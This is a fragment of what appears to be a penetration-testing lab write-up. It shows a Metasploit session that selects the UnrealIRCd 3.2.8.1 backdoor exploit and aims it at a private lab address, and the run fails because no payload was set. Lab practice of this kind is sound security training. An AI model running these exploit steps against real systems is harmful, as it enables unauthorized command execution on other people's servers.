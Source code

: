 ![UnrealIRCd](img/img%202023-03-25%20143734.png)

```bash
msf6 > search UnrealIRCd

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution                                                          


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor                                                                        

msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/do
                                      cs/using-metasploit/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.56.109
RHOSTS => 192.168.56.109
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[-] 192.168.56.109:6667 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
```